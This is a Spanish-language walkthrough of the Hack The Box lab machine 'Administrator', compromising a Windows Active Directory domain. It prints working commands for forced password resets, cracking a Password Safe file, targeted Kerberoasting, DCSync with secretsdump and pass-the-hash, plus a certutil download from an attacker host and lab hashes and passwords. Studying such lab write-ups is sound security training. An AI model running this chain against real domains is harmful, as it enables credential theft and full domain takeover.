# Administrator

## Información General

**- Dificultad:** medium <br>
**- Sistema operativo:** Windows <br>
**- Fecha de resolución:** 14/08/2026 <br>
**- Enlace:** [Administrator](https://app.hackthebox.com/machines/Administrator)
 
## Usuarios identificados

| **Usuario**       | **Forma de Obtención**                                                                            | **Funcionalidades, Permisos y Grupos Clave**                                                                                                                                                               |
| ----------------- | ------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Olivia**        | Credenciales de inicio provistas por el laboratorio (`Olivia` / `ichliebedich`).                  | • Grupo **Remote Management Users**.<br>• Acceso válido por **SMB**.<br>• Permiso **`GenericAll`** sobre el usuario Michael.                                                                               |
| **Michael**       | _Force Change Password_ sobre su cuenta aprovechando los permisos de Olivia.                      | • Grupo **Remote Management Users** (Acceso a shell vía **Evil-WinRM**).<br>• Permisos de **`ForceChangePassword`** sobre el usuario Benjamin.                                                             |
| **Benjamin**      | Reset de contraseña usando los permisos de Michael vía RPC/SMB.                                   | • Pertenece al grupo **Share Moderators**.<br>• Acceso al servicio **FTP** para descargar recursos protegidos (como el archivo `Backup.psafe3`).                                                           |
| **Emily**         | Extracción de credenciales tras descifrar la base de datos `Backup.psafe3` obtenida vía FTP.      | • Acceso válido por **SMB** y **WinRM** (acceso al flag `user.txt`).<br>• Permiso para **asignar SPNs** (`serviceprincipalname`) a otros usuarios del dominio mediante PowerView.                          |
| **Ethan**         | Ataque de **Kerberoasting** (asignación previa de SPN por Emily y posterior crackeo de hash TGS). | • Permisos de replicación sobre el dominio: **`GetChangesInFilteredSet`**, **`GetChanges`** y **`GetChangesAll`**.<br>• Capacidad de ejecutar un ataque de **DCSync** para volcar hashes NTLM del dominio. |
| **Administrator** | Volcado de su hash NTLM mediante DCSync con Ethan y posterior _Pass-the-Hash_.                    | • **Control total del sistema** y del Controlador de Dominio (acceso vía WinRM y lectura de `root.txt`                                                                                                     |
## Listado de Vulnerabilidades Identificadas

| **Permiso / Capacidad**                                                                                        | **Usuario(s) que lo posee(n)**                        | **Descripción**                                                                                                                                                | **Impacto en la Seguridad**                                                                                                                                                                                    |
| -------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **`GenericAll`**                                                                                               | **Olivia** _(sobre Michael)_                          | Otorga control total sobre el objeto de destino en Active Directory. Incluye derechos de lectura, escritura y modificación de todos los atributos del usuario. | **Compromiso total de la cuenta de destino:** Permite cambiar la contraseña de Michael directamente mediante un _force change password_ sin conocer su clave previa.                                           |
| **`ForceChangePassword`**                                                                                      | **Michael** _(sobre Benjamin)_                        | Permiso específico que autoriza a un usuario a restablecer la contraseña de otra cuenta dentro del dominio.                                                    | **Movimiento lateral implícito:** Permite tomar el control de la cuenta de Benjamin mediante llamadas RPC (`setuserinfo2`), cambiando su contraseña arbitrariamente para suplantarlo.                          |
| **Acceso a grupos de gestión y recursos (`Share Moderators`)**                                                 | **Benjamin**                                          | Membresía en grupos de Active Directory que conceden acceso a recursos específicos de la red, como carpetas o servicios compartidos.                           | **Fuga de información confidencial:** Permitía acceder al servicio FTP y descargar archivos sensibles no protegidos adecuadamente (como la base de datos de contraseñas `Backup.psafe3`).                      |
| **Escritura de Atributos / Modificación de SPN**                                                               | **Emily** _(sobre Ethan)_                             | Permiso para editar y escribir atributos específicos en objetos de usuario dentro del dominio, como `serviceprincipalname` (SPN).                              | **Habilitación de Kerberoasting:** Convierte una cuenta común en un objetivo de Kerberoasting al asignarle un SPN, permitiendo extraer su ticket Kerberos (TGS) para crackear la clave en offline.             |
| **Permisos de Replicación (`DCSync`)**<br><br>  <br><br>_(GetChanges, GetChangesAll, GetChangesInFilteredSet)_ | **Ethan** _(sobre el dominio `ADMINISTRATOR.HTB`)_    | Conjunto de derechos de Active Directory que permiten a un objeto solicitar actualizaciones de directorio y simular ser un Controlador de Dominio.             | **Compromiso total del Dominio:** Permite volcar remotamente la base de datos de credenciales NTLM (`secretsdump.py`), obteniendo el hash del usuario `Administrator` para tomar control absoluto del sistema. |
| **`Remote Management Users` / WinRM**                                                                          | **Olivia**, **Michael**, **Emily**, **Administrator** | Derecho de grupo o privilegio local que autoriza la conexión e interacción mediante la consola remota de PowerShell (WinRM).                                   | **Ejecución remota de comandos:** Permite obtener un shell interactivo dentro del servidor objetivo mediante herramientas como `Evil-WinRM`.                                                                   |

## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.129.49.230**

**HTB** nos deja una información muy clave para esta máquina: _Como es común en los pentests de Windows de la vida real, iniciará el cuadro de Administrador con las credenciales para la siguiente cuenta: Nombre de usuario: `Olivia` Contraseña: `ichliebedich`_

### Ping

```
ping -c 1 10.129.49.230
```

<p align="center">

</p>

**Su ttl es 128. Por tanto es Window**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -Pn 10.129.49.230
```

```bash
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-13 20:35:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
52237/tcp open  msrpc         Microsoft Windows RPC
52244/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
52249/tcp open  msrpc         Microsoft Windows RPC
52258/tcp open  msrpc         Microsoft Windows RPC
52274/tcp open  msrpc         Microsoft Windows RPC
```

| Open port/TCP | Service      | Version                                 |
| ------------- | ------------ | --------------------------------------- |
| 21            | ftp          | Microsoft ftpd                          |
| 53            | domain       | Simple DNS Plus                         |
| 88            | kerberos-sec | Microsoft Windows Kerberos              |
| 135           | msrpc        | Microsoft Windows RPC                   |
| 139           | netbios-ssn  | Microsoft Windows netbios-ssn           |
| 389           | ldap         | Microsoft Windows Active Directory LDAP |
| 593           | ncacn_http   | Microsoft Windows RPC over HTTP 1.0     |
| 3268          | ldap         | Microsoft Windows Active Directory LDAP |
| 3269          | tcpwrapped   | -                                       |
| 9389          | mc-nmf       | .NET Message Framing                    |
| 52244         | ncacn_http   | Microsoft Windows RPC over HTTP 1.0     |

Domain: `administrator.htb`. Lo añadimos a mi archivo **\etc\hosts**

### Transferencia de zona

```
dig axfr administrator.htb @10.129.49.230
```

<p align="center">

</p>

No funciona :(

Una búsqueda inversa tampoco proporciona información útil.

```
dig -x 10.129.49.230 @10.129.49.230
```

Me produce error de comunicación

### SMB 

```
netexec smb administrator.htb -u guest -p ''
```

<p align="center">

</p>

Existe usuario **guest** pero esta deshabilitado.

El comando se conecta por **SMB** al objetivo (`administrator.htb`), descubre los nombres de dominio/host asociados a las IPs de ese entorno y **actualiza automáticamente tu archivo `/etc/hosts`** asignando cada nombre a su IP.

```
netexec smb administrator.htb --generate-hosts-file /etc/hosts
```

> SMB         10.129.49.230   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)

El usuario **olivia** proporcionado por **HTB** es válido para smb.

```
netexec smb administrator.htb -u Olivia -p 'ichliebedich'
```

<p align="center">

</p>

## Explotación

### Shell como michael

#### Instalación - BloodHound

```
# Copyright 2023 Specter Ops, Inc.
#
# Licensed under the Apache License, Version 2.0
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
#
# SPDX-License-Identifier: Apache-2.0

services:
  app-db:
    image: docker.io/library/postgres:18
    environment:
      - PGUSER=${POSTGRES_USER:-bloodhound}
      - POSTGRES_USER=${POSTGRES_USER:-bloodhound}
      - POSTGRES_PASSWORD=${POSTGRES_PASSWORD:-bloodhoundcommunityedition}
      - POSTGRES_DB=${POSTGRES_DB:-bloodhound}
    # Database ports are disabled by default. Please change your database password to something secure before uncommenting
    # ports:
    #   - 127.0.0.1:${POSTGRES_PORT:-5432}:5432
    volumes:
      - postgres-data:/var/lib/postgresql
    healthcheck:
      test:
        [
          "CMD-SHELL",
          "pg_isready -U ${POSTGRES_USER:-bloodhound} -d ${POSTGRES_DB:-bloodhound} -h 127.0.0.1 -p 5432"
        ]
      interval: 10s
      timeout: 5s
      retries: 5
      start_period: 30s

  graph-db:
    image: docker.io/library/neo4j:4.4.42
    environment:
      - NEO4J_AUTH=${NEO4J_USER:-neo4j}/${NEO4J_SECRET:-bloodhoundcommunityedition}
      - NEO4J_dbms_allow__upgrade=${NEO4J_ALLOW_UPGRADE:-true}
    # Database ports are disabled by default. Please change your database password to something secure before uncommenting
    ports:
      - 127.0.0.1:${NEO4J_DB_PORT:-7687}:7687
      - 127.0.0.1:${NEO4J_WEB_PORT:-7474}:7474
    volumes:
      - ${NEO4J_DATA_MOUNT:-neo4j-data}:/data
    healthcheck:
      test:
        [
          "CMD-SHELL",
          "wget -O /dev/null -q http://localhost:7474 || exit 1"
        ]
      interval: 10s
      timeout: 5s
      retries: 5
      start_period: 30s

  bloodhound:
    image: docker.io/specterops/bloodhound:${BLOODHOUND_TAG:-latest}
    environment:
      - bhe_disable_cypher_complexity_limit=${bhe_disable_cypher_complexity_limit:-false}
      - bhe_enable_cypher_mutations=${bhe_enable_cypher_mutations:-false}
      - bhe_graph_query_memory_limit=${bhe_graph_query_memory_limit:-2}
      - bhe_database_connection=user=${POSTGRES_USER:-bloodhound} password=${POSTGRES_PASSWORD:-bloodhoundcommunityedition} dbname=${POSTGRES_DB:-bloodhound} host=app-db
      - bhe_neo4j_connection=neo4j://${NEO4J_USER:-neo4j}:${NEO4J_SECRET:-bloodhoundcommunityedition}@graph-db:7687/
      - bhe_recreate_default_admin=${bhe_recreate_default_admin:-false}
      - bhe_graph_driver=${GRAPH_DRIVER:-neo4j}
      ### Add additional environment variables you wish to use here.
      ### For common configuration options that you might want to use environment variables for, see `.env.example`
      ### example: bhe_database_connection=${bhe_database_connection}
      ### The left side is the environment variable you're setting for bloodhound, the variable on the right in `${}`
      ### is the variable available outside of Docker
    ports:
      ### Default to localhost to prevent accidental publishing of the service to your outer networks
      ### These can be modified by your .env file or by setting the environment variables in your Docker host OS
      - ${BLOODHOUND_HOST:-127.0.0.1}:${BLOODHOUND_PORT:-8081}:8080
    ### Uncomment to use your own bloodhound.config.json to configure the application
    # volumes:
    #   - ./bloodhound.config.json:/bloodhound.config.json:ro
    depends_on:
      app-db:
        condition: service_healthy
      graph-db:
        condition: service_healthy

volumes:
  neo4j-data:
  postgres-data:
```

Lo guardamos como **docker-compose.yml**

```
docker-compose up -d
```

Luego en el navegador ponemos lo siguiente: 

```
http://127.0.0.1:8081
```

Comando para recuperar la contraseña

```
sudo docker-compose logs bloodhound | grep -A 5 -i "Initial Password"
```

usuario --> admin
contraseña --> PRTlkoM55yWHq7yd0lk2r2_PXiKGjrZf

#### Enumeración

```
bloodhound-python -d 'administrator.htb' -u 'Olivia' -p 'ichliebedich' -gc 'administrator.htb' -dc 'administrator.htb' -ns 10.129.49.230 -c all --zip
```

Obtengo .zip lo ingreso en **Bloodhound**. 

En primer lugar observo quien forma parte del grupo **Remote Management users**

<p align="center">

</p>

En segundo lugar, me encuentro que usuario **Olivia** tiene permiso **genericall** hacia el usuario **Michael**

<p align="center">

</p>

Para llevar a cabo **force change password** usaremos el siguiente comando que nos ofrece **Bloodhound**

<p align="center">

</p>

```
net rpc password "michael" "pass123" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "10.129.49.230"
```

```
netexec smb administrator.htb -u michael -p 'pass123'
```

<p align="center">

</p>

Se ha obtenido un nuevo usuario **michael**

#### Shell

```
evil-winrm -i administrator.htb -u michael -p pass123
```

<p align="center">

</p>

### Obtener usuario benjamin

<p align="center">

</p>

Para conseguir el cambio de contraseña para el usuario benjamin haremos lo siguiente:

```
rpcclient -U "michael%pass123" 10.129.49.230

setuserinfo2 benjamin 23 pass123!!
```

Luego uso la herramienta netexec para verificar si lo he hecho correctamente:

```
netexec smb administrator.htb -u benjamin -p 'pass123!!'
```

<p align="center">

</p>

### Como obtener shell como emily

Investigando en **bloodhound** observo que **benjamin** está integrado en el grupo **Share Moderators** esto lo asocia a protolo **FTP** que antes no pude acceder por faltas de credenciales

<p align="center">

</p>

```
ftp 10.129.49.230
benjamin
pass123!!
dir
get Backup.psafe3
```

**Backup.psafe3** es una base de datos de contraseñas creada por el gestor de contraseñas **Password Safe** para descifrarlo usaremos la herramienta **john**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<p align="center">

</p>

La pass de **Backup.psafe3** es `tekieromucho`. Con el siguiente comando accedemos a **Backup.psafe3**

```
pwsafe Backup.psafe3 
```

<p align="center">

</p>

Hemos obtenido las creds de **emliy** que sirve tanto para **smb** como para **winrm**

```
netexec smb administrator.htb -uemily  -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

<p align="center">

</p>

```
netexec winrm administrator.htb -uemily  -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

<p align="center">

</p>

```
evil-winrm -i administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

<p align="center">

</p>

## Escalada de Privilegios

### Como obtener el usuario ethan

En mi primer lugar nos trasladamos **powerview.ps1** a la sesión de **emily**

```
certutil.exe -urlcache -f http://10.10.14.188/powerview.ps1 .\powerview.ps1
```

- **¿Qué hace?**: Toma la contraseña en texto plano `UXLCI5iETUsIBoFVTj8yQFKoHjXmb` y la convierte en un objeto de tipo _SecureString_ (cadena segura) en memoria, guardándolo en la variable `$SecPassword`.

```
Import-Module .\powerview.ps1

$SecPassword = ConvertTo-SecureString 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -AsPlainText -Force
```

**¿Qué hace?**: Junto el nombre del usuario (`administrator.htb\emily`) con la contraseña encriptada que preparamos arriba (`$SecPassword`) y crea un objeto de credenciales completo de PowerShell (`PSCredential`), guardándolo en `$Cred`.

```
$Cred = New-Object System.Management.Automation.PSCredential('administrator.htb\emily', $SecPassword)
```

- **¿Qué hace?**: Utilizo la herramienta **PowerView** para conectarse a Active Directory usando las credenciales de `emily` y **le asigna un atributo `serviceprincipalname` (SPN)** con el valor `acmetesting/LEGIT` al objeto de usuario `ethan`.

```
Set-DomainObject -Credential $Cred -Identity ethan -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose
```

En conclusión, lo que logramos con ese último comando fue **pegarle una etiqueta de servicio a la cuenta del empleado**. 

Al ponerle esa etiqueta (SPN) al usuario, hiciste que Active Directory ahora lo trate como si fuera un servidor o un servicio del sistema.

Esto habilita que cualquier otra cuenta del dominio pueda pedirle a Active Directory un **ticket de acceso (TGS)** para comunicarse con él, lo cual es el requisito necesario para realizar el ataque de _Kerberoasting_.

Luego, se debe de sincronizar la hora de tu máquina atacante con la IP del Controlador de Dominio (`10.129.49.230`).

```
sudo ntpdate 10.129.49.230
```

En mi kali, haremos el siguiente comando:

```
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.129.49.230 administrator.htb/emily:'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -request-user ethan
```

>`$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$c3ecc05a6ba32e45be5e57a570b1404f$5ea38c9a9dd1f0710e26b238d2abddd1df97da78a1bd3fa1e27abd93ec86c9c6e1fd00fb704ec7d6c6709edbd5c129854f41fa700274e3770e53c538dedfb9acd344d83b02c7c8030f8c105e89947b142c115bd4071940b01f8a4612c7de963396c4c256459147729bd541b73cd59a66d8d64a2dc4dff358d56aaab31e4f510fd1ee3699c4a7d0eba26c28d665648a7b78d2968ad0d873ec1726f6b27cc6d10dac766e734050f6874c00f4b663d0d8764c4040d36e69e32790150ad397146b1d9fe84ede079b5140236a740264943e6962f79009b9f2ccc63c7078766853f2ecc39b28974a63b13367bb1bd19ec6d2462dfd2c9e3a1f91422ef32cdd0a39ab52caf6dd15bd3ab6b18335a260eb6f2245d94ce0f94284b83a0faadc58bc883d1acd2134242efabaafe9ee6426f8fc1e60e895df3e7c977d71752ff3c1b88276de6977bd513fe50fbf1e64cb0fb975ff6f0af510743e513949952dc715e6702ad23169413fb2b53fe4de04aba3539521a4bafb593a0a792255a7856c4ee4cb8958df5624753dcfc0f33f6892576cf8fe5a996ed264d8ef852e67099adfd55a636a7d190ad121b2f49494d2cedeba9918f9fa1d815a3f7c828f36546665400d2e6a0b9682e93e45dd19f4d24e535c0449a996d31a05f123ca88dabdab66a38ea85e1823125a0a1fbb321df6ce6c939dadaf75493702129a054e34a7c77c58b4804aa0fd2ce5b103fbc0f0e07e77aec81943707f16c57ca249eb05c3ca60cc2dc5c1f203b0d54d1fd0b38bf2380f283dff3d6e57804ad7f5e7f61e6688bd598bdb69e27e01e915c5e4f33488c64c0715d600aa1e7ce28f4821ebffbf186258bd7a250999e3995b326b7ca00767fcc06944c2dc8eabc94f67bcb2eba786631c6fc9974483da734befb6a89a3df61e2cc5aa23c63b4e82a9f2bcce28a56dee96b5d6cadd35d860db4fe9c1091f3be3a178e6715a10420a6436f01ba4306588f1575316498dec1c549ad331044cc8cbd15c2bdd3e3b5158d8d58f0eda2c65165a784d0ca45d137c967e3e4c0d1c7a11ffe26cb159fd640ce7a29aeeb759afebb0dcab97524992864f7ecc20ffaa5ff891b212e2e37202b4c075462bb8d97132352612780d79815c66c0152a432a94aa0f53808b4b3f7efa56aac40798b0c17807a1470a99afdc7d53de5ea7fb44c4f598d8f7ad2773449318182475e0f5aa11fc5dae55e07acaff8797f8a4d2e31d688da425ae7e3535af1934d74bfbfc7ab63381055cdd7ac591102ca3dc58c2cec1daa7f6dbdb0eabc0c2d6a7fcf0458e6a9cbb2cfce7fa4e9b099150402f6498fa2e8f6d91673be5b4413dbf2e935a3aa76e106c550ebf8f7f90c2822ae22ab652f097f65751555df6550b5e178f7a7da006a174958c9d35a975ace2b1db475b4ed51a535f728203b77952ef980bd69292dd264a8378382426139807c4baf3dd005f7a0d9dfea5b7a0a427c48656d7757aeb62d9c46b4dac3f5f687533be9cc0e721032bc2ba5abb9ebb6554d076db38e1985d1f`

Lo guardamos en el siguiente archivo **ethankerberoastinghash**. Luego usaremos hashcat

```
hashcat -m 13100 ethankerberoastinghash /usr/share/wordlists/rockyou.txt 
```

>limpbizkit

Validamos la cred obtenidas con **netexec**

```
netexec smb administrator.htb -u ethan  -p 'limpbizkit'
```

<p align="center">

</p>

### Como obtener shell de administrador

<p align="center">

</p>

Según la captura de BloodHound, la relación entre **ETHAN** y el objeto raíz del dominio (**ADMINISTRATOR.HTB**) es de **permisos de replicación**, concretamente el derecho **`GetChangesInFilteredSet`** (junto con `GetChanges` / `GetChangesAll` que se observan en las otras flechas).

Esta combinación de permisos otorga a `ethan` la capacidad de ejecutar un ataque de **DCSync**.

Con este privilegio, **Ethan** puede volcar hashes para el dominio con **secretsdump.py**:

```
secretsdump.py ethan:limpbizkit@dc.administrator.htb
```

<p align="center">

</p>

```
 evil-winrm -i administrator.htb -u Administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

<p align="center">

</p>

## Conclusión

Esta máquina `Administrator` representa un escenario de escalada de privilegios y movimiento lateral en Active Directory basado en el abuso de **relaciones de confianza, ACLs mal configuradas y credenciales débiles**. La cadena de ataque comienza aprovechando el permiso `GenericAll` de **Olivia** sobre **Michael** para forzar el cambio de su contraseña, seguido por el permiso `ForceChangePassword` de Michael sobre **Benjamin**, quien tiene acceso por FTP a una base de datos de claves descifrable (`Backup.psafe3`) de la que se obtienen las credenciales de **Emily**. Con Emily se asigna un SPN a **Ethan** para ejecutar un ataque de **Kerberoasting** y descifrar su clave; finalmente, aprovechando los permisos de replicación de dominio de Ethan, se ejecuta un **DCSync** para extraer el hash NTLM del **Administrator** y comprometer por completo el sistema mediante _Pass-the-Hash_.